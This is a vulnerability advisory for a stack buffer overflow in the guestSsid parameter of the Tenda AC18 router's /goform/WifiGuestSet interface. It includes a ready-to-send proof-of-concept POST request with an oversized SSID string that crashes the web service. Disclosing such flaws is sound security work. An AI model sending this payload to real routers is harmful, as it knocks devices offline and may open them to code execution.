# Information

**Vendor of the products:**    Tenda

**Vendor's website:**    https://www.tenda.com.cn

**Reported by:**    YanKang、ChenZhijin、WeiKanghong

**Affected products:**	Tenda AC18 router

**Affected firmware version:**	V15.03.05.05_multi

**Firmware download address:** 	https://www.tenda.com.cn/material/show/2610

# Overview

A stack-based buffer overflow vulnerability was discovered in `Tenda AC18 routers (V15.03.05.05_multi)`. The vulnerability exists in the `guestSsid` parameter of the `/goform/WifiGuestSet` interface. Remote attackers can exploit this vulnerability by sending oversized data to the `guestSsid` parameter, leading to denial of service (device crash) or potential remote code execution.

# Vulnerability details

The buffer overflow occurs when an excessively long `guestSsid` value is stored without proper validation and later retrieved via `strcpy` into a fixed-size stack buffer during the `/goform/WifiGuestGet `request processing. This direct copy operation without bounds checking enables stack corruption, leading to service crashes or potential code execution.

Retrieve the guestSsid field, stored in the wl2g.ssidxx.ssid entry.



The code used to obtain the guestSsid field is as follows:



In the SetValue function for the guestSsid field, any string length less than 1499 can be stored in the corresponding entry.



Subsequently, when a user sends a POST request to `/goform/WifiGuestGet`, the corresponding `guestSsid` field is retrieved from this entry.



Then it proceeds directly to GetValue, where no length checks are performed before executing strcpy.



The v45 variable here is the s pointer. An excessively long string set for the guestSsid field can directly overwrite the stack frame, causing a stack overflow.








# Exp

The exploitation occurs when an authenticated attacker submits a specially crafted POST request to the /goform/WifiGuestSet endpoint with an excessively long string in the guestSsid parameter. This triggers a buffer overflow condition that crashes the web service, resulting in denial of service. The overflow condition may also be leveraged to achieve remote code execution on the affected device.

```
POST /goform/WifiGuestSet HTTP/1.1
Host: 192.168.1.1
Content-Length: 1181
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: password=25d55ad283aa400af464c76d713c07adxdhtgb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Connection: close

guestEn=1&guestEn_5g=1&guestSecurity=wpapsk&guestSecurity_5g=wpapsk&guestSsid=b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'&guestSsid_5g=Tenda_VIP_5G&guestWrlPwd=11111111&guestWrlPwd_5g=11111111&effectiveTime=8&shareSpeed=0
```

# Attack Demo

1. **Initial Access:**  The attacker first authenticates to the router's web interface via the /login.html page to obtain valid credentials.

   

2. **Payload Injection:** The attacker submits a specially crafted POST request to the `/goform/WifiGuestSet` endpoint, injecting an excessively long string into the `guestSsid` parameter to trigger the buffer overflow.

   

   

   

3. **Trigger Condition:** The vulnerability is immediately triggered upon processing the  malicious request, causing the web service to crash and resulting in  denial of service for all subsequent web interface access attempts（For example: /goform/WifiGuestSet）.

   

# Supplement

This overflow vulnerability results in persistent denial of service, requiring physical restart of  the device to restore normal operation. Under specific conditions, the  overflow could potentially be leveraged to achieve remote code  execution, enabling complete compromise of the router.


